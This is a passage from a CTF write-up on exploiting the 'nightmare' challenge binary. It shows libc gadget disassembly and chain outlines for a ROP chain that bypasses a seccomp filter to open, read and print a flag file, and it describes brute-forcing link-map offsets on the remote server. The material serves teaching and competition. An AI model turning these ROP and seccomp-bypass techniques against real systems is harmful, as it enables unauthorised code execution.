   0x7f9cb237f6e2 <open64+210>:	syscall 
   ...
```

Now who in the right mind thought that the open function should use open the open_at syscall instead. Now not only is this function dead, but there are no instances of `mov r/eax, 0; syscall` or something similar that is usable anywhere in libc. Normally this wouldn't be a problem but the seccomp limits us and any other syscalls ran will kill execution. This is also the reason we can't just jump right before a syscall, such as `open64+89`, as `RAX` is clobbered during `_dl_fixup` and stops us from just saving a raw syscall. So we need a way around this, what about the syscall function:

```assembly
   0x00007f9cb2389930 <+0>:	endbr64 
   0x00007f9cb2389934 <+4>:	mov    rax,rdi
   0x00007f9cb2389937 <+7>:	mov    rdi,rsi
   0x00007f9cb238993a <+10>:	mov    rsi,rdx
   0x00007f9cb238993d <+13>:	mov    rdx,rcx
   0x00007f9cb2389940 <+16>:	mov    r10,r8
   0x00007f9cb2389943 <+19>:	mov    r8,r9
   0x00007f9cb2389946 <+22>:	mov    r9,QWORD PTR [rsp+0x8]
   0x00007f9cb238994b <+27>:	syscall 
   0x00007f9cb238994d <+29>:	cmp    rax,0xfffffffffffff001
   0x00007f9cb2389953 <+35>:	jae    0x7f9cb2389956 <syscall+38>
   0x00007f9cb2389955 <+37>:	ret    
   0x00007f9cb2389956 <+38>:	mov    rcx,QWORD PTR [rip+0xf64b3]        # 0x7f9cb247fe10
   0x00007f9cb238995d <+45>:	neg    eax
   0x00007f9cb238995f <+47>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f9cb2389962 <+50>:	or     rax,0xffffffffffffffff
   0x00007f9cb2389966 <+54>:	ret  
```

This bundles a syscall into argument style, so not only could we set `RDI` to 2 then call this, this will also move our flag into `RDI` to complete the write, and we can call this from our lookup as `RDI` will be 1 for the write call, making this turn into a write call that ultimately fails in the original lookup. This would be perfect except 1 issue... `mov rsi,rdx`. We have no control or `RDX` except we can guarantee it will point to our last gadget called in our `fini_array`. So the only way I could think of to do this is to use the beauty of `syscalls`, `sub rcx, rax`, and a `push rcx; ret`. 

If you are not aware syscalls will use the registers in this order `rdi, rsi, rdx, r10,r8,r9`, why no `RCX`? Infact, `RCX` is set to the next address after a syscall, so if we have a successful or not successful syscall the `return(? not sure what else to call it) address` is stored into `RCX`, then we just subtract 2 bytes and find a way to jump to `RCX`. There were jump `RCX` gadgets, but for some reason I decided on the `push rcx; ret`, can't remember if I just couldn't find a working `jmp` or not. You may be thinking that this shouldn't pass the lookup function, but it does barely. Using the ability above, after a `syscall`, `RCX` is set, which means that `RCX` points to the address right after the `syscall` in  `read`, so we push that address and then return safely back to `nightmare`

So here are the two gadgets:

```assembly
   0x7f9cb22cc3fa <printf_size_info+26>:	mov    eax,0x1
   0x7f9cb22cc3ff <printf_size_info+31>:	ret  
```

```assembly
   0x7f9cb22fa888 <_IO_adjust_column+40>:	sub    rcx,rax
   0x7f9cb22fa88b <_IO_adjust_column+43>:	lea    eax,[rcx-0x1]
   0x7f9cb22fa88e <_IO_adjust_column+46>:	ret    
```

Given the gadget for `sub rcx, rax` I either needed to do it twice as `rax` will get clobbered, or find an `add rax, 1`

```assembly
   0x7f9cb2317250 <envz_get+32>:	add    rax,0x1
   0x7f9cb2317254 <envz_get+36>:	test   dl,dl
   0x7f9cb2317256 <envz_get+38>:	mov    edx,0x0
   0x7f9cb231725b <envz_get+43>:	cmove  rax,rdx
   0x7f9cb231725f <envz_get+47>:	ret    
```

Luckily `RDX` is never zero and the `DL` check can be avoided, but since we changed the method of calling syscall, `RSI` still points to the flag now. So we need to call `syscall` once to have it fail,  this allows us to move `RSI` into `RDI`. Normally this would also set `RCX` but in the source of `syscall`, for some reason, sets the error code into `RCX` first, so for this I called write instead, setting `RCX` to that syscall instead.

## RSI = Zero , RDI, and Full OPEN

Now we still need to get `RSI` to zero as we want to open the flag as read, finding a gadget for this was a bit tough. By utilizing the `hcreate` function above to set `RSI` to the flag, we can then `and esi, 0x200` to get the zero we desire.

```assembly
0x7f9cb239eee0 <__memcpy_chk+64>:	and    esi,0x200
   0x7f9cb239eee6 <__memcpy_chk+70>:	lea    rdx,[rip+0x74353]        # 0x7f9cb2413240
   0x7f9cb239eeed <__memcpy_chk+77>:	lea    rax,[rip+0x743bc]        # 0x7f9cb24132b0
   0x7f9cb239eef4 <__memcpy_chk+84>:	cmove  rax,rdx
   0x7f9cb239eef8 <__memcpy_chk+88>:	ret    
```

This one was close as, `__memcpy_chk` doesn't actually resolve, but luckily the function right before does resolve, good 'ol `__cyg_profile_func_exit`. Luckily based on the address I was using for the flag file name, anding with 0x200 resulted in 0.

With this out of the way now we can set `RDI`, this is only important in the case of the first syscall we need to make as it still needs to be a valid syscall to move to `RAX`

So here is that gadget:

```assembly
   0x7f9cb22c60d3:	mov    edi,eax
   0x7f9cb22c60d5:	cmp    rdx,rcx
   0x7f9cb22c60d8:	jae    0x7f9cb22c60bc
   0x7f9cb22c60da:	mov    rax,r8
   0x7f9cb22c60dd:	ret    
```

This is at `cuserid+243`, the one catch is that `RCX` needs to be greater than `RDX` or this won't work. As it jumps away and does some garbage, then crashes. Since `RDX` is near our chain, the only way I could figure this out a way to set `RCX` higher was another `syscall`.

So the full chain for `open` becomes:

```assembly
set rsi to flag mem
write function , sets rcx higher than rdx
mov rax, 1
mov rdi, rax
syscall func, mov rdi, rsi
set rsi to flag
and esi, 0x200, zero rsi
mov rax, 1
add rax, 1
sub rcx, rax; resets rax
mov rax, 1
add rax, 1, set rax to open
push rcx; ret
```

 Not too shabby!

## Read problems

For the read syscall, we can't just call the `read` function as `RDX` will be a large value and you wouldn't guess it but, read needs the third argument to be around 0x1000 as a max. So we need a way to set `RDX` and call syscall, this turned into a huge headache, but eventually I was able to think of a solution.

If we utilize the `syscall` function we can move a value from `RCX` into `RDX`, allowing us to get a smaller value in there if we can control `RCX`. We have a rough estimate at what `RCX` equals, as we just used a syscall. So I found this gadgets to help lower make `RCX` usable:

```assembly
   0x7f9cb22b27c6 <rand_r+70>:	and    ecx,0x3ff
   0x7f9cb22b27cc <rand_r+76>:	xor    eax,ecx
   0x7f9cb22b27ce <rand_r+78>:	ret  
```

Next we need to set `RSI` to our File Descriptor, I could have just assumed 3 and worked with it but the gadgets I found let me move the value from `RAX` just as easily, by utilizing the zeroing out of `RSI` from earlier, a move from `RAX` to `RDI`, and finally the gadget below.

```assembly
   0x7f9cb22ad924:	or     esi,edi
   0x7f9cb22ad926:	movd   xmm0,esi
   0x7f9cb22ad92a:	ret    
```

This was found at `modff+0xe4`

## RDI/RAX and Read Chain

We also need to have `RDI` be 0, there are several ways this could be done, the method I took was to make `RAX` become -1 then use the add 1 gadget from earlier. This can easiliy be done with just a call to write that will fail, there by returning -1 as an error.

We should be able to create a chain building off the previous open to read from the flag, but wait what about `RSI` during the actual syscall function. Since `RSI` is set to the value at `RDX` this works alright, it isn't perfect as we don't have full control of the location but we do know that it is writeable memory and that is all that really matters for now.

```
mov rdi, rax
set rsi, to flag , also zeros out rax
and esi, 0x200
or esi, edi
write call, rax = -1
add rax, 1
mov rdi, rax
and rcx, 0x3ff
syscall func
```

## Write chain

Now we have most of the gadgets, we need for a write call as well, write follows the same guadlines as read, so we need to make `RDX` smaller again through RCX. And our same gadgets should still work, `RSI` won't point to the exact same address as where we stored the flag but will still point to the `fake fini_array` and we can print the data before and after it.

```
set rsi, to flag
mov rax, 1
mov rdi, rax
and esi, 0x200
or esi, edi
and rcx, 0x3ff
syscall function
```

The lastly to get this to run, all you need to do is call `Exit` so `_dl_fini` can be called and viola a flag... on local at least



All the garbage will print out with it, as this is from our rop chain.

## Remote

I'm going to ignore the fact that my rop chain wasn't working at one point when I first started trying to hit remote and talk about some of the real issues at hand, here are two memory maps, first is from my docker environment using the correct hash and the second is from the author from the remote system

```

0x00007eff8f7fa000 0x00007eff8f83d000 0x0000000000000000 rw- 							<-- mmapped region
0x00007eff8f83d000 0x00007eff8f869000 0x0000000000000000 r-- libc.so.6					 <-- 0x43000 offset to mmapped region
0x00007eff8f869000 0x00007eff8f9fd000 0x000000000002c000 r-x libc.so.6
0x00007eff8f9fd000 0x00007eff8fa51000 0x00000000001c0000 r-- libc.so.6
0x00007eff8fa51000 0x00007eff8fa52000 0x0000000000214000 --- libc.so.6
0x00007eff8fa52000 0x00007eff8fa55000 0x0000000000214000 r-- libc.so.6
0x00007eff8fa55000 0x00007eff8fa58000 0x0000000000217000 rw- libc.so.6
0x00007eff8fa58000 0x00007eff8fa67000 0x0000000000000000 rw- 
0x00007eff8fa69000 0x00007eff8fa6a000 0x0000000000000000 r-- ld-linux-x86-64.so.2		  <-- 0x22c000 offset to LIBC
0x00007eff8fa6a000 0x00007eff8fa92000 0x0000000000001000 r-x ld-linux-x86-64.so.2
0x00007eff8fa92000 0x00007eff8fa9c000 0x0000000000029000 r-- ld-linux-x86-64.so.2
0x00007eff8fa9c000 0x00007eff8fa9e000 0x0000000000032000 r-- ld-linux-x86-64.so.2
0x00007eff8fa9e000 0x00007eff8faa0000 0x0000000000034000 rw- ld-linux-x86-64.so.2

```

```
7f54d09a4000-7f54d09e8000 rw-p 00000000 00:00 0 									   <-- mmapped region
7f54d09e8000-7f54d0a14000 r--p 00000000 00:2a7 9044063   libc.so.6						<-- 0x44000 offset to the heap
7f54d0a14000-7f54d0ba8000 r-xp 0002c000 00:2a7 9044063   libc.so.6
7f54d0ba8000-7f54d0bfc000 r--p 001c0000 00:2a7 9044063   libc.so.6
7f54d0bfc000-7f54d0bfd000 ---p 00214000 00:2a7 9044063   libc.so.6
7f54d0bfd000-7f54d0c00000 r--p 00214000 00:2a7 9044063   libc.so.6
7f54d0c00000-7f54d0c03000 rw-p 00217000 00:2a7 9044063   libc.so.6
7f54d0c03000-7f54d0c10000 rw-p 00000000 00:00 0 
7f54d0c12000-7f54d0c14000 rw-p 00000000 00:00 0 
7f54d0c14000-7f54d0c15000 r--p 00000000 00:2a7 9044044   ld-linux-x86-64.so.2			  <-- 0x22c00 offset to LIBC
7f54d0c15000-7f54d0c3d000 r-xp 00001000 00:2a7 9044044   ld-linux-x86-64.so.2
7f54d0c3d000-7f54d0c47000 r--p 00029000 00:2a7 9044044   ld-linux-x86-64.so.2
7f54d0c47000-7f54d0c49000 r--p 00032000 00:2a7 9044044   ld-linux-x86-64.so.2
7f54d0c49000-7f54d0c4b000 rw-p 00034000 00:2a7 9044044   ld-linux-x86-64.so.2
```

After looking at this you would have the same assumption as me and everyone else that looked at it, all you need to do is add 0x1000 to all the offsets, let's see if that works.

```
run 0: started
run 0: flag not found
```

Well that is not reassuring, maybe I miss typed something so I checked, then double checked, then triple checked. Then asked someone else for confirmation on their system and their offsets were even more different. This is also where I learned about the puts error that I ran into. Thanks ath0 for this. So maybe a different gadget was running into the same issue of loading a different function because of CPU opperability, but after looking through, none of the gadgets should run into this. So I came to the assumption that one of my offsets had to still be different compared to my system, there is one offset that stands apart from everything else.

That would be the `libc link map`, looking back our link map is at `libc+0x228000`. Now this offset is a bit strange as it is almost to the ld and at the further edges of libc, it didn't truly occur to me that this is probably a loaded sub value as the remote system has two different mmapped chunks after libc and mine only has 1. To find the correct offset, you guessed it we brute force, I set a quick brute to jump every 8 bytes starting at the 0x22a000 from libc, and got a hit at 0x200. Now giving me the flag!!!



## Takeaway

This challenge took the most of my time in a long time for a CTF challenge, I'm happy that I was able to successfully complete the challenge but a bit dissappointed that I wasn't able to claim the blood because of different system offsets, not even libc/ld. Before you think, "why not just check their system and try it"... I did, I ran my exploit for there other challenge, interview, and checked the kernel version thinking this would work. Found the rare instance, then tried it on 3 different ubuntu versions, all had different offsets then the remote. So I reached out to the infra man, and was informed that:

```
theyre running the ubuntu-gke-2004-1-21-v20211104 gcp image
kernel is 5.4.0-1054-gke
```

At this point I thought I spent enough time trying to get this working and pretty much threw in the towel as it was already past the deadline. So it was a great surprise when my last gamble actually paid off while I was writing this writeup.

Anyways, thanks for reading and thanks to pepsipu for the challenge, ath0 for the sanity check and help, and sour for sitting in discord and watching me fail for hours when you didn't fully understand what was going on!

